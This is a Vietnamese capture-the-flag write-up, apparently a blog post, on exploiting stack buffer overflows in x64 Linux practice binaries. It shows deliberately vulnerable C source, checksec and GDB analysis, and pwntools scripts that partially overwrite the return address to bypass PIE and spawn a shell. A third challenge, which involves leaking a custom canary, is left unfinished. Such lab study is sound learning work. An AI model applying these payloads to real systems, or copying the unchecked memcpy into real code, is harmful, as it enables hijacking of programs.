+++
title = "Pwn - Stack Buffer Overflow"
date = 2023-08-18
description = "Hướng dẫn chi tiết về khai thác lỗi Stack Buffer Overflow trên Linux x64, bao gồm phân tích checksec, gdb và vượt qua PIE bằng cách ghi đè từng phần (partial overwrite)."
[taxonomies]
tags = ["ctf", "pwn", "buffer-overflow", "stack", "gdb", "pie", "linux-security"]
[extra]
toc = true
+++

## Homework Challenge

**Author**: Nguyễn Chí Thành | JakeClark  
**Date**: Fri, Aug 18th, 2023

**Source code `bof.c`**:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void vuln(char* s){
    char buf[0x20];

    if(strlen(s) > 0x40){
        puts("Buffer too long!!");
        _exit(-1);
    }

    memcpy(buf,s,strlen(s));
}

int main(int argc, char** argv, char** envp){
    if(argc != 2){
        printf("Usage: %s <buffer>\n", argv[0]);
        return -1;
    }

    if(strlen(argv[1]) > 0x40){
        puts("Buffer too long!!");
        return -1;
    }
    vuln(argv[1]);

    return 0;
}

void w1n(){
    char* argv[] = { ":))", NULL};
    execve("/bin/sh",argv,NULL);
}
```

<!-- more -->

### Phân tích ban đầu

Kiểm tra các mitigation trong binary:

```bash
$ file bof
bof: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=73d26ce04cf5955141c64f8d8e558931522ed16f, for GNU/Linux 3.2.0, not stripped

$ checksec --file=bof
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   43 Symbols        No    0               2               bof
```

**Các thông số quan trọng**:
- **ELF 64-bit**: Kiến trúc x86-64.
- **LSB**: Endianness là Little Endian.
- **Not Stripped**: Còn giữ nguyên debugging symbols, rất thuận tiện để phân tích.
- **PIE Enabled**: Địa chỉ code sẽ bị randomize mỗi lần chạy.
- **No Canary**: Không có "lính gác" stack, bảo bối cho Buffer Overflow.
- **NX Enabled**: Stack không có quyền thực thi, không thể chạy shellcode trực tiếp trên stack.

### Phân tích lỗi

Trong hàm `vuln()`, buffer `buf` chỉ chứa được 32 byte (`0x20`), nhưng điều kiện kiểm tra lại cho phép chuỗi dài tới 64 byte (`0x40`):

```c
char buf[0x20];
if(strlen(s) > 0x40){ ... }
memcpy(buf, s, strlen(s));
```

Lỗi copy quá số lượng byte cho phép dẫn đến tràn bộ đệm trên stack. Mục tiêu là hàm `w1n()` để mở shell.

### Debug với GDB

Thử chuỗi 32 byte lấp đầy buffer + 8 byte xem nó đi đâu:

```bash
$ gdb --args bof i_hate_x_i_hate_x_i_hate_x_i_hatlove_twi
```



RIP chưa bị ghi đè vì 8 byte đó mới chỉ chạm tới RBP đã lưu. Thêm tiếp 8 byte nữa:



Lúc này RIP đã bị ghi đè. Sơ đồ stack:



### Vượt qua PIE (Partial Overwrite)

Vì PIE được bật, chúng ta không biết địa chỉ tuyệt đối của hàm `w1n()`. Tuy nhiên, các hàm trong cùng một binary sẽ luôn có chung phần đầu địa chỉ, chỉ khác nhau vài bit cuối.

Xem địa chỉ hàm `w1n()` qua các lần chạy:




Địa chỉ luôn kết thúc bằng `d4`. RIP hiện tại và hàm `w1n()` chỉ khác nhau đúng byte cuối. Chúng ta chỉ cần ghi đè byte cuối của RIP thành `\xd4` là xong!



**Exploit Script**:

```python
import pwn

elf = pwn.ELF("./bof")
print(hex(elf.symbols["w1n"])) # 0x12d4
# Ghi đè 32 byte buffer + 8 byte RBP + 1 byte cuối của RIP
p = elf.process(argv=[b"i_hate_x_i_hate_x_i_hate_x_i_hatlove_twi\xd4"])
p.interactive()
```



---

## bof_noCanary

Bài này tương tự bài trên:

```bash
$ checksec --file=bof_nocanary
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   43 Symbols        No    0               2               bof_nocanary
```

Phân tích trong IDA:





**Script**:

```python
import pwn

elf = pwn.ELF("./bof_nocanary")
p = elf.process(argv=[b"a"*40+b"\xd4"])
p.interactive()
```

---

## bof_customCanary (Incomplete)

Kiểm tra binary:

```bash
$ checksec --file=bof_customCanary
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   42 Symbols        No    0               1               bof_customCanary
```

Bài này **có Canary** nhưng **không có PIE**. IDA phân tích:




Hàm `setupCanary` đọc 7 byte từ `/dev/urandom` làm canary. Ý tưởng là leak canary này bằng cách tràn buffer vừa đủ để hàm `strcmp` hoặc `puts` in luôn cả canary ra.
